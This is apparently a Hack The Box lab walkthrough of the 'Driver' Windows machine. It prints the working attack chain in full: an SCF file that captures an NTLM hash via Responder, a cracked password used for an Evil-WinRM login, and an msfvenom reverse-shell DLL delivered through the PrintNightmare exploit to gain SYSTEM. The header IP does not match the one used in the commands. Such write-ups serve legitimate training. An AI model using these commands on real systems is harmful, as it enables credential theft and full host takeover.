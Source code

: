 # HTB - Driver

#### Ip: 10.10.83.71
#### Name: Driver
#### Rating: Easy

----------------------------------------------------------------------

![Driver.png](../assets/driver_assets/Driver.png)

### Enumeration

I'll kick off enumerating this box with an Nmap scan covering all TCP ports. To speed this along I'll also use the `--min-rate 10000` flag:

```text
┌──(ryan㉿kali)-[~/HTB/Driver]
└─$ sudo nmap -p-  --min-rate 10000 10.10.11.106  
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-21 10:28 CDT
Nmap scan report for 10.10.11.106
Host is up (0.070s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT     STATE SERVICE
80/tcp   open  http
135/tcp  open  msrpc
445/tcp  open  microsoft-ds
5985/tcp open  wsman

Nmap done: 1 IP address (1 host up) scanned in 13.42 seconds
```

Lets scan these ports using the `-sV` and `-sC` flags to enumerate versions and to use default Nmap scripts:

```text
┌──(ryan㉿kali)-[~/HTB/Driver]
└─$ sudo nmap -sC -sV 10.10.11.106 -p 80,135,445,5985
Starting Nmap 7.93 ( https://nmap.org ) at 2023-08-21 10:31 CDT
Nmap scan report for 10.10.11.106
Host is up (0.068s latency).

PORT     STATE SERVICE      VERSION
80/tcp   open  http         Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
| http-methods: 
|_  Potentially risky methods: TRACE
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=MFP Firmware Update Center. Please enter password for admin
|_http-server-header: Microsoft-IIS/10.0
135/tcp  open  msrpc?
445/tcp  open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
5985/tcp open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
Service Info: Host: DRIVER; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 6h59m59s, deviation: 0s, median: 6h59m59s
| smb2-security-mode: 
|   311: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2023-08-21T22:31:20
|_  start_date: 2023-08-21T22:22:54
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 53.05 seconds
```

Navigating to the website on port 80, we are met with a pop saying we need to authenticate. Luckily, I tried admin:admin and got access to the site:

![site.png](../assets/driver_assets/site.png)

Clicking on the Firmware Updates link (the only option that contains an actual link) we find an interesting page and message:

![firmware.png](../assets/driver_assets/firmware.png)

Ok interesting. This note seems to imply that whatever we load here will be manually reviewed. Lets try an SCF attack.

### Exploitation

First we need to create an .scf file (Shell Command File) which contains our IP we'll be listening on with Responder. We can do that with:


```text
[Shell]
Command=2
IconFile=\\10.10.14.34\share\testing.ico
[Taskbar]
Command=ToggleDesktop
```

I saved this to a file called test.scf.

Lets now start up Responder to listen for any connections:

![responder.png](../assets/driver_assets/responder.png)

Once we upload the file we see that user Tony did reveiw it and Responder was able to grab his hash!

![hash.png](../assets/driver_assets/hash.png)

Lets put this hash in a file called tony_hash and use JohnTheRipper to crack it:

![cracked.png](../assets/driver_assets/cracked.png)

Remembering that WinRM (port 5985) is open on the target, lets login with the discovered credentials using Evil-WinRM:

```text
┌──(ryan㉿kali)-[~/HTB/Driver]
└─$ evil-winrm -i 10.10.11.106 -u tony -p liltony

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\tony\Documents> whoami
driver\tony
*Evil-WinRM* PS C:\Users\tony\Documents> hostname
DRIVER
```

We can now grab the user.txt flag:

![user_flag.png](../assets/driver_assets/user_flag.png)

### Privilege Escalation

I'll use the `upload` feature in Evil-WinRM and upload a copy of WinPEAS to help enumerate a privilege escalation vector:

```text
*Evil-WinRM* PS C:\Users\tony\Music> upload /home/ryan/Tools/privesc/winPEASx64.exe
Info: Uploading /home/ryan/Tools/privesc/winPEASx64.exe to C:\Users\tony\Music\winPEASx64.exe

                                                             
Data: 2581844 bytes of 2581844 bytes copied

Info: Upload successful!
```

Looking through the results from WinPEAS, I start seeing lots of info about Ricoh printers.

![ricoh.png](../assets/driver_assets/ricoh.png)

Googling for exploits I find https://github.com/cube0x0/CVE-2021-1675 hosting the PrintNightmare exploit code.

Lets try this.

First we'll need to create a reverse shell .dll using msfvenom:

```text
┌──(ryan㉿kali)-[~/HTB/Driver]
└─$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.34 LPORT=443 -f dll -o shell.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of dll file: 9216 bytes
Saved as: shell.dll
```

With that created we can then set up an smb share using impacket-smbserver:

```text
┌──(ryan㉿kali)-[~/HTB/Driver]
└─$ impacket-smbserver share . 
```

Then, with a NetCat listener going, we can run the exploit:

```text
┌──(ryan㉿kali)-[~/HTB/Driver]
└─$ python printnightmare.py driver/tony:liltony@10.10.11.106 '\\10.10.14.34\share\shell.dll'
```

And catch a shell back as nt authority\system:

```text
┌──(ryan㉿kali)-[~/HTB/Driver]
└─$ nc -lnvp 443
listening on [any] 443 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.11.106] 49432
Microsoft Windows [Version 10.0.10240]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt authority\system
```

![exploit.png](../assets/driver_assets/exploit.png)

From here all we need to do is grab the root.txt flag:

![root_flag.png](../assets/driver_assets/root_flag.png)

Thanks for following along!

-Ryan

----------------------------------------
